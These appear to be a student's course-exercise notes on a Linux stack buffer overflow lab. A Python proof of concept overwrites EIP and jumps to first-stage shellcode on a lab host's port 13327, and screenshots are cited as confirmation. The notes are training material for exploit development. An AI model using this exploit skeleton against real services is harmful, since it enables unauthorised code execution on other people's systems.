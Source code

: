 ### 12.6.1.1 Exercises
#### 1. Find a suitable assembly instruction address for the exploit using EDB.

![image-20200709182929151](.12.6.1.1.assets/image-20200709182929151.png)

#### 2. Include the first stage shellcode and return address instruction in your proof-of-concept and ensure that the first stage shellcode is working as expected by single stepping through it in the debugger.

- PoC code:

  ```python
  #!/usr/bin/python3
  import socket
  host = "192.168.216.44"
  eip = b"\x96\x45\x13\x08"
  crash = b"\x41" * 4368
  first_stage = b"\x83\xc0\x0c\xff\xe0\x90\x90"
  buffer = b"\x11(setup sound " + crash + eip + first_stage +"\x90\x00#"
  s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
  print ("[*]Sending evil buffer...")
  s.connect((host, 13327))
  print (s.recv(1024))
  s.send(buffer)
  s.close()
  print ("[*]Payload Sent !")
  ```

- First stage executes successfully
  ![image-20200709194530776](.12.6.1.1.assets/image-20200709194530776.png)

- Lands us at the beginning of our payload
  ![image-20200709194615169](.12.6.1.1.assets/image-20200709194615169.png)

